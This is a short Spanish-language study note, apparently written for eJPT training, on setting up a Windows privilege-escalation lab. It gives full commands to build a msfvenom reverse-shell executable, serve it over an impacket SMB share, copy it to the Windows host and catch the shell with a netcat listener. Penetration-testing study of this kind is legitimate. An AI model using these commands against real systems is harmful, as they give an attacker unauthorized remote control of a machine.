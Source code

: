 
- En Kali, genere un ejecutable de shell inverso (reverse.exe) usando msfvenom. Actualice la dirección IP de LHOST en consecuencia:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe`
```

- Transfiera el archivo reverse.exe al directorio C:\PrivEsc en Windows. Hay muchas maneras en que podría hacer esto, sin embargo, la más simple es comenzar un SMB servidor en Kali en el mismo directorio que el archivo y, a continuación, utilice el comando de copia de Windows estándar para transferir el archivo.

- En Kali, en el mismo directorio que reverse.exe:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
```

- En Windows (actualice la dirección IP con su IP Kali):

```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`
```

- Pruebe el shell inverso configurando un oyente netcat en Kali:

```
sudo nc -nvlp 53`
```

- Luego ejecute el ejecutable reverse.exe en Windows y capture el shell:

```
C:\PrivEsc\reverse.exe`
```

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
